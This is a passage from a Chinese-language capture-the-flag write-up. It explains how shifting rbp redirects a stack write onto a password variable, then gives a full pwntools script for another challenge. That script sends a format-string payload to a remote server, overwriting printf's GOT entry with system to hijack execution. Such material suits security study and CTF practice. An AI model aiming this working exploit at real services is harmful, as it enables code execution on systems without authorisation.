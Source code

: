   

> 这里是将`rax`的值赋给`rbp-4`,而rax暂时存储我们的输入，也就是说，这里将4660传递给了`rbp-4`的位置，那么我们的`rbp`是多少呢，`passwd_addr+0x4`!，所以4660传递给了`passwd`,完成

- 那v4呢？接着看

  ![image-20250203143717093](./images/image-20250203143717093.png)

![image-20250203143733532](./images/image-20250203143733532.png)

> 可以看一下静态汇编，这里第一个判断是将`passwd`的值传给`eax`,然后比较；第二个判断是`rbp-4`的位置传递给`eax`，然后比较。
>
> 同时动态调试这里也展示的很清楚，pwndbg直接给解释为两次对`passwd`和`0x1234`比较
>
> 所以v4，其实已经被抛弃了（瓦达西...)

总之呢，这里可以实现的关键在于**局部变量的寻值是按照rbp的相对偏移**，所以将rbp移动后会改变寻值的对象

## tanjniu

**格式化字符串plt表劫持got表**

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
p = remote('1.95.36.136',2054)

printf_got = elf.got['printf']
system_plt = elf.plt['system']
payload = fmtstr_payload(7,{printf_got:system_plt})
p.sendline(b's')
p.sendline(payload)
p.interactive()
```

